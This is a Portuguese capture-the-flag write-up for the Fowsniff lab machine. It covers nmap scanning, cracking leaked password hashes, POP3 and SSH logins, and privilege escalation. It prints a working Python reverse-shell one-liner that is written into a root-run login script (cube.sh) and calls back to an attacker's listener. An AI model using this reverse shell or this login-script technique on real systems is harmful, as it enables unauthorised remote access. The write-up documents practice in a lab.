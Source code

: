 # _**Fowsniff CTF**_
![](sniff.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Pesquisando no Google sobre a companhia <mark>Fowsniff Corp</mark>, encontramos um link no Github com hashes de senhas  
Além disso, mais informações estão disponíveis na página  
Vamos tentar quebrá-las com <mark>hashkiller</mark>  

![](hash_decrypt.jpg)

## _**Ganhando acesso**_

Após, vamos realizar login no serviço POP3 via ```nc```
> ```bash
> nc [ip_address] [pop3_port]
> ```
![](login_pop3.jpg)

Conseguimos informações confidenciais e importantes  

![](information.jpg)

Pelas dicas do primeiro e-mail, vamos realizar login via SSH

![](ssh_login.jpg)

## _**Escalando privilégios**_

Pela dica, podemos pesquisar pelo arquivo _cube.sh_

![](cube.jpg)

Este arquivo parece ser a mensagem de login quando realizamos via SSH  
E que pode ser editada por nós!  

![](message_login.jpg)

Vamos executar o seguinte comando para conseguirmos obter uma _shell_:
> ```bash
> echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" > /opt/cube/cube.sh
> ```

Após, basta sair da conexão SSH, criar um _listener_ com ```netcat```, e em seguida, realizar login via SSH novamente  

![](shell.jpg)

Após, basta procurar pela flag em /root

![](root_flag.jpg)
